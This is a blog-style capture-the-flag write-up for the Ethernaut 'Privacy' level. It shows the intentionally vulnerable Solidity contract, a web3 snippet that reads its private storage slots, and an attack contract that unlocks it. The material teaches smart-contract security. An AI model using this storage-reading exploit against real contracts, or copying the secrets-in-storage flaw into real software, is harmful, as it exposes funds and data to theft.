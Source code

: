 +++
title = "Privacy - Ethernaut"
date = "2022-01-26"
author = "DimitrisV"
+++
On this challenge, we have to unlock a vault again, but this is a more advanced one.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

So we can see some state variables and one byte32array. Our constructor parses the valuable data to the private data. The unlock function is our only point of interaction with this contract and here we just need to pass the right sequence of bytes16 to unlock the contract. As we already know, Ethereum blockchain is public, so we can spy on its storage by typing in console:

```
let storage = []
let callbackFNConstructor = (index) => (error, contractData) => {
    storage[index]= contractData
}


for( var i = 0; i<6; i++) { web3.eth.getStorageAt(contract.address, i, callbackFNConstructor(i)) }
```
Running the code in the web console above will fetch us the first 6 storage variables defined in the target contract.Then, by accessing in storage array, we can see the 6 storage varaibles:
```
storage
(6) ['0x0000000000000000000000000000000000000000000000000000000000000001', '0x0000000000000000000000000000000000000000000000000000000061e8582a', '0x00000000000000000000000000000000000000000000000000000000582aff0a', '0x6afa09c95f78aa0d4427b26b649a9e39764fb2e42aa80a1628d0af9465f2dfc6', '0x5be1ffbd26ef932af6988e85bfa3168a66be9f53ad7a4036c81ec5578a9e12a6', '0x3cb5971a348f1a4224f2175e48a929cc30b29ff44f5886d651e48fce1acdab53']

```

The very first storage variable ends with "001", so we expect to be a boolean variable. locked is the only boolean variable and obviously it is the first storage array data. We have  the variable flattening = 10; and denomination=255. In hexadecimal, 10 is represented as 0a  and 255 is represented as 255. We can find these in the third storage data.Due to storage optimization from Ethereum, we can find the in the same variable.

Storage optimization follows these very simple rules:
1. Each index set aside for a storage variable allow 256bits.
2. Variables are indexed in the order they are defined in smart-contract.
3. If a variable consumes less than 256bits to be represented, leftover space will be shared with subsequent variables if they fit. Otherwise, they will be in the next storage variable.

Also, it should be mentioned that constants do not use this type of storage. All other storage variables are from the byte32 array ``data`` . Therefore, we can see in unlock function that it is required that the key to be a byte16 and then compares it typecasts the data array[2] as a byte16 to aceed the comparision.
We have just to take the first half of the bytes32 data and that’s going to be the new bytes16 type data. Calling the unlock method with that as an input parameter should unlock the vault. Let's create an attack contract.

```
pragma solidity ^0.6.0;

import './Privacy.sol';

contract PrivacyAttack {
     Privacy target;





     constructor(address _targetAddr) public {
         target = Privacy(_targetAddr);

        
     }

     function unlock(bytes32 _slotValue) public {
	 			// type casting the bytes32 to bytes16 
         bytes16 key = bytes16(_slotValue);
         target.unlock(key);
     }
    }
```

Our contract address is: 
```
contract.address 
```
Under the deployment of the contract, we add the contract's address to set it as a target in the counstructor. Finally, we can copy the storage data that stores the key and then give it as an input to our attack unlock function. Then, the contract will typecast the data from byte32 to byte16, it will keep only the first half of the bytes32 and send it to bytes16 type data. We unlocked the vault!!

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

- [Smart Contract Security: Dimitris Vagiakakakos, Stavros Gkinos, Ioannis Karvelas](https://github.com/sv1sjp/eVoting_Elections_Decentralized_App/blob/main/smartcontract_security_paper.pdf)


* [Smart Contract Security - Educational YouTube Series in Greek - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)

